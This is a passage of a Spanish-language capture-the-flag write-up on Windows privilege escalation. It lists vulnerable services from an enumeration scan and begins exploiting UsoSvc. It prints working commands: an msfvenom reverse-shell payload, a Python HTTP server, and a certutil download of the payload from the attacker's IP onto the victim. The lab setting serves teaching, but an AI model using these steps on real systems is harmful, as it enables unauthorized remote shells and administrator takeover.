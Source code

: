 ```batch
 [*] Finished. Found 12 potential vulnerabilities.

����������͹ Modifiable Services
� Check if you can modify any service https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#services
    LOOKS LIKE YOU CAN MODIFY OR START/STOP SOME SERVICE/s:
    RmSvc: GenericExecute (Start/Stop)
    UsoSvc: AllAccess, Start
.
```
Con esto sabido, puedes probar algunos de los Exploits que nos menciona. Obviamente, debes leer primero si estos son compatibles para su uso en esta máquina.

Vamos a probar 3 formas de explotar la máquina:
* Modificando el **servicio UsoSvc**.
* Utilizando **Juicy Potato**.
* Descubriendo la contraseña de **TeamViewer** usando modulo de **Metasploit Framework**.

<h2 id="exploit3">Modificando Servicio UsoSvc</h2>

Para realizar este proceso, necesitamos una **Reverse Shell** para conectarnos en otra terminal y necesitamos modificar el **servicio UsoSvc**, de tal forma que al activar este servicio, ejecute un comando como Administrador para conectarnos como administrador.

Pero, ¿qué es el **servicio UsoSvc**?

| **UsoSvc** |
|:-----------:|
| *El servicio Update Orchestrator controla la descarga, instalación y verificación de las actualizaciones de Windows para computadoras. En cualquier caso, si desea seguir recibiendo e instalando actualizaciones, debe mantener el servicio en funcionamiento. El servicio se ejecuta bajo el proceso compartido svchost.exe, que básicamente inicia muchos procesos, y Update Orchestrator Service es uno de estos procesos.* |

<br>

La siguiente página nos dice como modificar el **servicio UsoSvc**:
* <a href="https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#services" target="_blank">HackTricks: Windows Local Privilege Escalation - Services</a>

Vamonos por pasos:

* Creando **Reverse Shell**:
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=Tu_IP LPORT=1337 EXITFUNC=thread -f exe -a x86 --platform windows -o shell.exe
```

* Abre un servidor con **Python**:
```bash
python3 -m http.server 80
```

* Cargando **Reverse Shell** en la máquina víctima:
```bash
C:\Users\Public\Desktop>certutil -urlcache -f http://Tu_IP/shell.exe shell.exe
certutil -urlcache -f http://Tu_IP/shell.exe shell.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.
```
